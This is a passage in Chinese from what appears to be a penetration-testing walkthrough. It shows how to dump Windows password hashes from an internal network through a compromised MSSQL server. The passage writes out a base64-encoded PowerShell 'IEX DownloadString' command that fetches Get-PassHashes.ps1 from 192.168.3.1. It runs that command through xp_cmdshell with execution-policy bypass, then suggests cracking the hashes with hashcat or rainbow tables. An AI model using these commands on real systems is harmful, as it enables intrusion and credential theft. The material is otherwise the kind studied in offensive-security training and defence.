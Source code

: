 `query user`查看一下最近登录的用户  
![image.png](assets/1706232584-3ca41feada410958fe335ae9eec4845f.png)

### 尝试远程加载 powershell 脚本抓取内网 hash

```php
PS C:\> $text = "IEX (New-Object Net.WebClient).DownloadString('http://192.168.3.1/Get-PassHashes.ps1');Get-PassHashes;"
PS C:\> $Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
PS C:\> $EncodedText =[Convert]::ToBase64String($Bytes)
PS C:\> $EncodedText > bs64.txt
```

![image.png](assets/1706232584-88addae1fa005d4220a16e23018610d2.png)  
将 bs64.txt 的内容复制出来放到 mssql 执行 powershell

```php
exec master..xp_cmdshell 'powershell -exec bypass -encodedcommand SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADMALgAxAC8ARwBlAHQALQBQAGEAcwBzAEgAYQBzAGgAZQBzAC4AcABzADEACgAnACkAOwBHAGUAdAAtAFAAYQBzAHMASABhAHMAaABlAHMAOwA=';
```

![image.png](assets/1706232584-9bc1bb7f6e2b1d85d9a6761a0c56d5d5.png)  
放 hashcat 跑跑或者彩虹表解密一下  
